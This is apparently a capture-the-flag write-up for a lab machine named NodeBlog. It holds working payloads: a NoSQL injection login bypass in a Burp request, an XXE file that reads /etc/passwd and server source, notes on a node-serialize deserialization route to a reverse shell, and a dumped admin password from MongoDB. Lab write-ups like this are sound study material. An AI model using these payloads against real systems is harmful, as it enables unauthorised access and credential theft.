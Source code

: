 # Enumration

```text
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 ea:84:21:a3:22:4a:7d:f9:b5:25:51:79:83:a4:f5:f2 (RSA)
|   256 b8:39:9e:f4:88:be:aa:01:73:2d:10:fb:44:7f:84:61 (ECDSA)
|_  256 22:21:e9:f4:85:90:87:45:16:1f:73:36:41:ee:3b:32 (ED25519)
5000/tcp open  http    Node.js (Express middleware)
|_http-title: Blog
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```


## NoSQL Injection at Login-Page 

### Burp Request
```text
POST /login HTTP/1.1
Host: 10.10.11.139:5000
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:78.0) Gecko/20100101 Firefox/78.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/json
Content-Length: 50
Origin: http://10.10.11.139:5000
Connection: close
Referer: http://10.10.11.139:5000/login
Upgrade-Insecure-Requests: 1

{"user": "admin", "password": {"$ne": "onepiece"}}
```

> [NoSQL Injection Payloads](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/NoSQL%20Injection#authentication-bypass)


### Response On Uploading PHP Rev-Shell

```text
HTTP/1.1 200 OK
X-Powered-By: Express
Content-Type: text/html; charset=utf-8
Content-Length: 144
ETag: W/"90-v0DoTdXwQk7iInwC6sdbQSWTk3E"
Date: Sun, 16 Jan 2022 13:01:02 GMT
Connection: close

Invalid XML Example: 
<post>
	<title>Example Post</title>
	<description>Example Description</description>
	<markdown>Example Markdown</markdown>
</post>
```

### Testing Custom XML file
Upload the below XML file to test for **XXE** Vulnerability
```xml
<?xml version="1.0" encoding="ISO-8859-1"?>
<!DOCTYPE foo [
  <!ELEMENT foo ANY >
  <!ENTITY xxe SYSTEM "file:///etc/passwd" >]>

<post>
        <title>Example Post</title>
        <description>Example Description</description>
        <markdown>&xxe;</markdown>
</post>
```
**And It was Success !!**

### Sending JSON data with syntax error
On Sending JSON data with syntax error Site reveal some File, as we can see in the Response below:
```html
<!DOCTYPE html>
<html lang="en">
<head>
<meta charset="utf-8">
<title>Error</title>
</head>
<body>
<pre>SyntaxError: Unexpected end of JSON input<br> &nbsp; &nbsp;at JSON.parse (&lt;anonymous&gt;)<br> &nbsp; &nbsp;at parse (/opt/blog/node_modules/body-parser/lib/types/json.js:89:19)<br> &nbsp; &nbsp;at /opt/blog/node_modules/body-parser/lib/read.js:121:18<br> &nbsp; &nbsp;at invokeCallback (/opt/blog/node_modules/raw-body/index.js:224:16)<br> &nbsp; &nbsp;at done (/opt/blog/node_modules/raw-body/index.js:213:7)<br> &nbsp; &nbsp;at IncomingMessage.onEnd (/opt/blog/node_modules/raw-body/index.js:273:7)<br> &nbsp; &nbsp;at IncomingMessage.emit (events.js:412:35)<br> &nbsp; &nbsp;at endReadableNT (internal/streams/readable.js:1334:12)<br> &nbsp; &nbsp;at processTicksAndRejections (internal/process/task_queues.js:82:21)</pre>
</body>
</html>
```

 #### We can conclude that the Website **root** directory is **`/opt/blog`**

# Source Code Read
Gonna try to read the source code using the above **XXE** vulnerability , which is 
**`/opt/blog/server.js`** 
> `server.js` is common file in `NODE` application

### SOURCE CODE :

From the Source Code in Function **`authenticated`**
```js
function authenticated(c) {
    if (typeof c == 'undefined')
        return false

    c = serialize.unserialize(c)

    if (c.sign == (crypto.createHash('md5').update(cookie_secret + c.user).digest('hex')) ){
        return true
    } else {
        return false
    }
}
```

This line implies the use of `Serialization` 
```text
c = serialize.unserialize(c)
```

## User

Getting the Reverse Shell by exploiting the **`Node.js Serialization`** as explained in this Blog:
+ [Exploiting Node.js Serialization](https://opsecx.com/index.php/2017/02/08/exploiting-node-js-deserialization-bug-for-remote-code-execution/)

We got shell as user **admin** getting into  **/home**  we can't get into our home directory neither we can read files
But since we are the owner of the  **admin**  directory we can change permissions:
```shell
admin@nodeblog:/home$ ls -al
ls -al
total 16
drwxr-xr-x 1 root  root   10 Dec 27 15:12 .
drwxr-xr-x 1 root  root  180 Dec 27 16:41 ..
drw-r--r-- 1 admin admin 220 Jan  3 17:16 admin
admin@nodeblog:/home$ cat admin/user.txt
cat admin/user.txt
cat: admin/user.txt: Permission denied
admin@nodeblog:/home$ cat admin/user.txt
cat admin/user.txt
cat: admin/user.txt: Permission denied
admin@nodeblog:/home$ chmod +x admin
chmod +x admin
admin@nodeblog:/home$ cd admin
```

## Getting Password for Admin user
**Mongodb** was running on on system and we can find **admin** user password in it from **blog** database under **users** collection
```text
{ "_id" : ObjectId("61b7380ae5814df6030d2373"), "createdAt" : ISODate("2021-12-13T12:09:46.009Z"), "username" : "admin", "password" : "IppsecSaysPleaseSubscribe", "__v" : 0 }
``` 
